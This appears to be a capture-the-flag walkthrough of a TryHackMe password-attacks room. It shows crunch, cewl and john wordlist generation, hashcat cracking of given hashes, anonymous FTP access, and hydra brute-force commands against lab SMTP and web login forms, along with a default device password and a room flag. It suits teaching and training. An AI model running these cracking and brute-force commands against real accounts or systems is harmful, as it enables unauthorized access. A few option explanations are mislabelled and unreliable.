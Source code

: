 ## Password Attacking Techniques 

<details>
<summary> Which type of password attack is performed locally? </summary>
<p></p>
Between 'Password Cracking' and 'Password Guessing', <i>'Password Cracking'</i> is the correct answer as this usually involves cracking hashes on the attackers local machine.

</details>

## Password Profiling #1 - Default, Weak, Leaked, Combined , and Username Wordlists

<details>
<summary> What is the Juniper Networks ISG 2000 default password? </summary>
<p></p>

Keeping the default credentials on your device is a huge security risk, and this is exactly what this question is about. By not changing the password you leave your device open to anyone who can do a quick google search and find the user's guide to the device:

<p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185885338-5fca362b-1de2-4a72-a77f-d1cb88977969.png" >
</p>

This, from the aformentioned official user guide to the 'Juniper Networks ISG 2000' reveals both the username and password to be 'netscreen'
  <p></p>
  
  ``` Source = https://www.juniper.net/documentation/hardware/netscreen-systems/netscreen-systems50/ug_isg_2000.pdf ```

</details>

## Password Profiling #2 - Keyspace Technique and CUPP

<details>
<summary> Run the following crunch command: crunch 2 2 01234abcd -o crunch.txt. How many words did crunch generate? </summary>
<p></p>
Crunch, at least for me was not installed on my Linux device, this was easily fixable by running the following:
  <p></p>
  
  ``` sudo apt install crunch ```
  
  <p></p>
  Once that has finished installing you are good to run the command revealing the following lines:
  <p></p>
  
  <p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185888501-e0a3c124-60f3-4e58-8687-9f5db95ee26a.png" >
</p>

</details>

<details>
<summary> What is the crunch command to generate a list containing THM@! and output to a filed named tryhackme.txt? </summary>
<p></p>

   This task is to create a LIST containing this password, not just generate the word itself. Using the following logic:
  
  ```
  @ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space
  ```
  
"THM" is a given and is known so does not need to have every combination generated with "," as that list would be sooooo long. The only parts that would differ would be "@" and "!". We can ascertain that as "@" and "!" are special characters, they must be represented by the "^" symbol. The final command would be as so:
  
  ``` crunch 5 5 -t THM^^ -o tryhackme.txt ```

</details>

## Offline Attacks - Dictionary and Brute-Force

<details>
<summary> 
Considering the following hash: 8d6e34f987851aa599257d3831a1af040886842f. What is the hash type? </summary>
<p></p>

The tool of choice to identify hashes, 'hashid' was not installed on my Linux system by default. This can be fixed with the following command:
  
  ``` sudo apt install hashid ```
  
  Running the following revealed the answer:
  
  ![image](https://user-images.githubusercontent.com/66912443/185891467-ebcb94f8-a836-442f-9316-c7eeec0e9aca.png)

</details>

<details>
<summary> Perform a dictionary attack against the following hash: (The same one) What is the cracked value? Use rockyou.txt. </summary>
<p></p>
Now that we known the hash is SHA-1, this helps with filling out the fields when we pass it through hashcat. From 'hashcat.net', we can ascertain the hash-mode code for SHA-1 is 100.
  <p></p>
  <p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185892364-a0547a46-cf42-40f5-b150-8a891a9a15c4.png" >
  </p>

  Now the command can be completed: 
  
  ``` hashcat -a 0 -m 100 8d6e34f987851aa599257d3831a1af040886842f [location of rockyou.txt] ```
  
  "-a" determines the type of attack (0 meaning dictionary)  
  "-m" determines the hash mode used (100 for SHA-1)
  
  <p></p>
  
  Once you have run this command and it has been cracked, (this may take a while) it will show the following:
  <p></p>
  <p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185894232-5897b833-e42f-470b-be91-fdd5ea721a89.png" >
  </p>

  To get your answer, press the up arrow to get the previous command again and add "--show"
  
  <p></p>
  <p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185894740-3fe0b40d-b264-4898-b2cd-6d590734cbd7.png" >
  </p>
  
</details>

<details>
<summary> Perform a brute-force attack against the following MD5 hash: e48e13207341b6bffb7fb1622282247b. What is the cracked value? Note the password is a 4 digit number: [0-9][0-9][0-9][0-9] </summary>
<p></p>

Referring back to the table in the previous question, we know that MD5 is represented by the code "0".

``` hashcat -a 3 -m 0 e48e13207341b6bffb7fb1622282247b ?d?d?d?d ```

"-a" determines the type of attack (3 meaning dictionary)  
"-m" determines the hash mode used (100 for SHA-1)  
"?d?d?d?d" indicates for the brute force to look for a 4 digit character (1 ?d = 1 digit)
  <p></p>
  The only step left is to run the command as we have everything we need already:
  <p></p>
<p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185899243-2b182574-6892-49f4-b22d-996a8667246b.png" >
  </p>

</details>

## Offline Attacks - Rule-Based

<details>
<summary> What would (be) the syntax you would use to create a rule to produce the following: "S[Word]NN  where N is Number and S is a symbol of !@? </summary>
<p></p>
  
"Az" Specifies there is a word here 
  
  
  "[0-9]" Specifies there is a number. There must be quotations on either side of the closed square brackets and the brackets can be put next to each other for more numbers  
  
  
  "^" Means append a special character to the beginning of each word  
  
  
  "$" Means append a special character to the end of each word
  
  With this all in mind, it can be put together to create the following:
  
  
``` Az"[0-9][0-9]" ^[!@] ``` 

</details>

## Online password attacks

<details>
<summary> Can you guess the FTP credentials without brute-forcing? What is the flag? </summary>
<p></p>

Sometimes FTP servers have an 'anonymous' account left open. This allows access to a server to get information that is publically available, however in this case it can be used for more harm than good. As seen below using the username 'anonymous' with no password gave me access to this ftp server.

  ![image](https://user-images.githubusercontent.com/66912443/185905336-bb588089-1d99-4759-b50f-d12ae52c5447.png)
  
  Listing all reveals a directory known as 'files' which within there lies the flag...
  
  ![image](https://user-images.githubusercontent.com/66912443/185905628-bc810e0d-8669-40ba-a88a-b23a376e3192.png)
  
  Using 'get', the flag is transferred to my machine and the flag is revealed: 
  
  ``` THM{d0abe799f25738ad739c20301aed357b} ```
  
</details>

<details>
<summary> What is the password? (for pittman@clinic.thmredteam.com) Note that the password format is as follows: [symbol][dictionary word][0-9][0-9]. </summary>
<p></p>

 To make this easier, first its best to create a new rule in john following the password formula given:
 
 ```
 sudo nano /etc/john/john.conf <--- open wherever your john is installed
 [List.Rules:THM-Example] <--- Name the rule
 Az"[0-9][0-9]" ^[!@#$] <--- Rules
 ```
 
![image](https://user-images.githubusercontent.com/66912443/185931105-66f2011c-49f9-4406-a6fb-c05226e8ff16.png)
                             
Next is to create a custom wordlist using 'cewl' from the website that the email address comes from.

``` cewl -m 8 -w clinic.lst https://clinic.thmredteam.com ```
                             
"-m" indicates the minimum wordlength to pick up (default is 3)
                             
![image](https://user-images.githubusercontent.com/66912443/185932034-5727e811-608e-43fc-8ada-a6c3f80ca2d4.png)

To create the final wordlist, the list created using cewl needs to be put through the rules created using john at the beginning.
                             
``` john --wordlist=clinic.lst --rules=THM-Example --stdout > john.txt ```
  
This will create a file full of all the password combinations.
  
![image](https://user-images.githubusercontent.com/66912443/185933639-d8c9ffc2-87e8-4605-89bc-4fa979e346b6.png)

Now, finally to use it against the SMTP server. The below command, using hydra, will run a dictionary attack against the account similarly to other examples you've seen.
  
``` hydra -l pittman@clinic.thmredteam.com -P [path to final wordlist] smtp://[ip] -v ```

After that has finished executing, as always this is computer dependent on how fast this will be, youll have your password.
  
![image](https://user-images.githubusercontent.com/66912443/185935399-ec36c083-6a8b-440a-ab62-dfcb4dc73add.png)


</details>

<details>
<summary> Perform a brute-forcing attack against the phillips account for the login page at [ip]/login-get using hydra? What is the flag? </summary>
<p></p>

To conduct the attack, we need to once again use Hydra, this time for a 'GET' attack, hence '/login-get'. 

``` hydra -l phillips -P [path] [IP] http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f ```

"-l" Specifies the username that is going to be tried with this attack  


"-P" this is the path to the wordlist used to bruteforce the password  


"http-get-form" specifies the type of attack being performed, this time a GET attack  


"^USER^" Tells the program to brute force with the username  


"^PASS^" Tells the program to brute force the password with the given file.  


"-f" Tells the program to stop once its been successful  

Putting that command through and running it will lead you to find the password, as seen below: (speed dependent on time taken as usual)
  
![image](https://user-images.githubusercontent.com/66912443/185955618-9448571b-65d0-4656-a58d-192b9886a7f5.png)

At this point you can log in as phillips and get the flag!
  


</details>

<details>
<summary> Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: [ip]/login-post/. What is the flag? </summary>
<p></p>
Similarly to the previous attack, we will be using Hydra. This time, we will be utilising a 'POST' attack instead.
  <p></p>
The hint to this question refers to the need for the 'single extra' rule in john when creating a wordlist, so the first task will be to create a new wordlist from the original 'clinic.lst' for use in the exercise. There is no need to create this rule as it is included in the 'john.conf' file.
  <p></p>
  
``` john --wordlist=clinic.lst --rules=Single-Extra --stdout > burgess.txt ```

So, now we have our wordlist it is time to conduct the attack against the '/login-post' address. The syntax for this hydra command is quite similar to the previous tasks, in fact I just copied and pasted it and changed some words around.
  <p></p>
  
  ``` hydra -l burgess -P [path] [IP] http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f ```
  
</details>


